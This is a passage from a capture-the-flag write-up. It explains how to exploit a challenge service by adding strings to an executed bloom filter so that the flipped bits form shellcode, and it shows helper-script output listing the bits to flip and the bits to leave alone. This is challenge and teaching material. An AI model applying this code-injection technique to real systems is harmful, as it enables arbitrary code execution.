 The resulting code is 80 bytes long.

At this point I manually flipped some bits in the exploit path, obtaining
the final bloom filter (stored in *vault.bf*).


### Exploit

To build the attack, you need to find a set of strings to add to the bloom filter
that result in flipping the bits you need to compose your shellcode, but without flipping 
any other bits along the execution path.

So, first you need to look for sequences of bytes in the filter you can modify to obtain
the instructions you need. For most of the instructions you would get just two/three 
options.. so there is no need to bruteforce or write automated tools. Just connect
together those pieces with jumps and you are ready to go.

Once you have artificially created your shellcode bloom filter,
you can compute the bits you need to flip by diffing the
initial state of the filter with the one containing the shellcode:

(all commands are in the [bitfield](../service/src/bitfield/) folder)

```
> python diff.py
Changes: [110, 180, 187, 190, 827, 843, 849, 854, 859, 862, 919, 965, 1030, 1035, 2062, 2102, 2165, 2169, 2179, 2182, 2736,  2841, 2852, 2866, 2869]
20 bytes, 25 bits to change
```

Then you need to list the bits that cannot be flipped (i.e., those that are set to zero
along the execution path):

```
> python make_blacklist.py
Executed bytes: [1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 123, 124, 125, 126, 127, 128, 253, 254, 255, 256, 257, 258, 259, 260, 261, 262, 342, 343, 344, 345, 346, 347, 348, 349, 350, 351, 352, 353, 354, 355, 356, 357, 270, 271, 272, 273]
Bit Blacklist: [8, 14, 18, 19, 20, 23, 25, 26, 29, 30, 31, 32, 33, 34, 35, 36, 38, 40, 41, 42, 44, 46, 48, 53, 55, 57, 58, 59, 60, 61, 63, 64, 67, 68, 69, 71, 72, 73, 74, 75, 77, 78, 80, 81, 82, 84, 86, 88, 89, 91, 94, 95, 97, 98, 99, 100, 101, 104, 106, 107, 108, 109, 113, 114, 115, 116, 117, 118, 119, 121, 122, 123, 126, 127, 128, 129, 130, 131, 132, 133, 136, 137, 138, 140, 143, 144, 145, 148, 150, 154, 156, 157, 159, 160, 161, 162, 163, 164, 165, 168, 170, 171, 172, 175, 176, 177, 179, 183, 808, 809, 810, 811, 813, 815, 817, 818, 819, 821, 822, 824, 825, 826, 828, 831, 836, 838, 839, 844, 846, 847, 850, 851, 855, 856, 857, 858, 860, 863, 864, 865, 866, 867, 868, 870, 871, 872, 873, 875, 880, 881, 882, 883, 884, 885, 887, 888, 889, 891, 895, 896, 900, 905, 906, 907, 910, 911, 912, 913, 914, 915, 916, 917, 921, 922, 923, 926, 928, 931, 933, 936, 940, 941, 943, 944, 946, 948, 950, 951, 952, 954, 956, 960, 961, 962, 964, 967, 972, 974, 975, 976, 978, 979, 980, 983, 985, 986, 988, 991, 992, 996, 999, 1000, 1001, 1004, 1005, 1006, 1007, 1008, 1009, 1010, 1011, 1012, 1013, 1014, 1015, 1016, 1017, 1018, 1019, 1021, 1022, 1026, 1028, 2025, 2026, 2028, 2029, 2030, 2034, 2035, 2036, 2040, 2042, 2043, 2044, 2045, 2047, 2048, 2050, 2051, 2052, 2053, 2055, 2056, 2058, 2059, 2060, 2061, 2063, 2064, 2065, 2066, 2067, 2069, 2071, 2072, 2073, 2074, 2076, 2078, 2080, 2083, 2085, 2086, 2090, 2091, 2093, 2095, 2097, 2103, 2161, 2162, 2163, 2166, 2167, 2168, 2170, 2171, 2173, 2177, 2180, 2181, 2184, 2185, 2186, 2187, 2188, 2189, 2190, 2737, 2738, 2740, 2741, 2742, 2745, 2746, 2747, 2748, 2752, 2754, 2755, 2757, 2760, 2763, 2764, 2768, 2769, 2770, 2771, 2773, 2774, 2777, 2779, 2780, 2782, 2783, 2784, 2785, 2790, 2792, 2793, 2794, 2796, 2800, 2802, 2803, 2804, 2808, 2809, 2810, 2811, 2812, 2813, 2817, 2819, 2823, 2824, 2825, 2826, 2828, 2829, 2831, 2832, 2833, 2834, 2835, 2838, 2842, 2844, 2845, 2846, 2847, 2848, 2849, 2850, 2851, 2853, 2854, 2858, 2860]

80 bytes in the executed path
370 bit blacklisted
```
